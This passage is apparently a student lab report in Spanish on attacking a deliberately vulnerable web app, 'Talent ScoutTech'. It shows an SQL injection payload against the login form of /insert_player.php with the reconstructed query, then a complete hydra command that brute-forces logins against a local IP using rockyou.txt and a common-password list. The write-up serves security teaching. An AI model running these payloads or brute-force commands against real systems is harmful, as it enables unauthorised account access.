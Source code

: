 # Informe técnico: Talent ScoutTech

### Parte 1 - SQLi

La página no permite añadir jugadores a usuarios no autenticados, un formulario nos exige que introduzcamos un usuario y contraseña válidos. Lo primero que haremos es comprobar que este formulario es vulnerable a una inyección y aprovecharlo para saltarnos esta protección.

**a) Dad un ejemplo de combinación de usuario y contraseña que provoque un error en la consulta SQL generada por este formulario. A partir del mensaje de error obtenido, decid cuál es la consulta SQL que se ejecuta, cuál de los campos introducidos al formulario utiliza y cuál no.**

Consulta realizada:

![Untitled](Informe%20te%CC%81cnico%20Talent%20ScoutTech%207c0426c064e64d0185ecac43545f55c5/Untitled.png)

| Valor | “1=” --a” |
| --- | --- |
| Campo | User |
| Formulario | /insert_player.php |
| Consulta ejecutada | SELECT userId, password FROM users WHERE username = ""1=" --a"” |
| Campos del formulario web utilizados en la consulta SQL | Usuario |
| Campos del formulario web no utilizados en la consulta SQL | Contraseña |

![Untitled](Informe%20te%CC%81cnico%20Talent%20ScoutTech%207c0426c064e64d0185ecac43545f55c5/Untitled%201.png)

**b) Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):**

- password
- 123456
- 12345678
- 1234
- qwerty
- 12345678
- dragon

**Dad un ataque que, utilizando este diccionario, nos permita impersonar un usuario de esta aplicación y acceder en nombre suyo. Tened en cuenta que no sabéis ni cuántos usuarios hay registrados en la aplicación, ni los nombres de estos.**

Se ha realizado un ataque con hydra con el diccionario proporcionado para las contraseñas y el diccionario rockyou.txt como usuarios.

El ataque realizado: 

`hydra -t 10 -w 30 -L /usr/share/wordlists/rockyou.txt -P /home/kali/Desktop/poss.txt 192.168.1.36 http-post-form "/insert_player.php:username=^USER^&password=^PASS^:Invalid user or password."` 
